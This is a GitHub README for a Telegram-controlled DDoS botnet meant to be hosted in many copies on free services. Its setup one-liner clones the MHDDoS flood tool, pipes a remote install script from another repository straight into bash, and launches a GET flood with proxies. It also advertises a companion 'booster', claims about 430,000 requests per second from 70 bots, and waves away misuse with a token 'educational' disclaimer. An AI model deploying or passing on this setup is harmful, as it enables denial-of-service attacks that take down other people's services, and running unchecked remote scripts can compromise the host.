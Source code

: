 # DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! (I use [GLITCH](https://glitch.com/dashboard) for simple and free host)
<br><br>
## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET example.com 1 100 mhddos_proxy/list 100 5 `
<br>
Now hit the URL of the bot for start (only if your hosting sleep your project in free mode like Glitch), you can also make a bot for start all other bot. 


The installation tutorial is not finished, if you have any problems I can help you.

<br><br>
[+] NEW ! You can now upgrade your requests/s using my [DDOS BOOSTER !](https://github.com/Mehliug-git/DDOS_Booster) It's just a DDOS bot without Telegram, just get a URL and start DDOS !    
<br>
[+] NEW ! : If you just want to test your infrastrucutre open me an Issue and have done this together !!

**In my Botnet I have actually 70 bots, I can go up to ~ 430 000 requests /s**
<br><br>

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.

### STOP OPENING ISSUES FOR SHIT

